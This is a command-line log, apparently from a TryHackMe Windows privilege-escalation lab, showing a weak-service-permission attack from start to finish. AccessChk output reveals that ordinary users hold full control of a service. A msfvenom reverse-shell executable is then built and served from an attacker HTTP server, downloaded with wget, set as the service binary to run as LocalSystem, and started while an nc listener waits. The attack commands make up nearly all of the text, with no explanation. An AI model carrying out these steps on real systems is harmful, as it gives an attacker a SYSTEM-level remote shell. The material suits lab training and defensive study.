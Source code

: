 ```
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS

C:\tools\AccessChk>


┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.81.220 LPORT=4447 -f exe-service -o rev-svc3.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc3.exe
                                                                          
┌──(kali㉿kali)-[~/Downloads/Windows_priv]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.90.7 - - [01/Sep/2022 13:34:57] "GET /rev-svc3.exe HTTP/1.1" 200 -


PS C:\Users\thm-unpriv> wget http://10.11.81.220:8000/rev-svc3.exe -O rev-svc3.exe

C:\Users\thm-unpriv>icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
processed file: C:\Users\thm-unpriv\rev-svc3.exe
Successfully processed 1 files; Failed processing 0 files

C:\Users\thm-unpriv>sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4447

C:\Users\thm-unpriv>sc stop THMService
[SC] ControlService FAILED 1062:

The service has not been started.


C:\Users\thm-unpriv>sc start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
```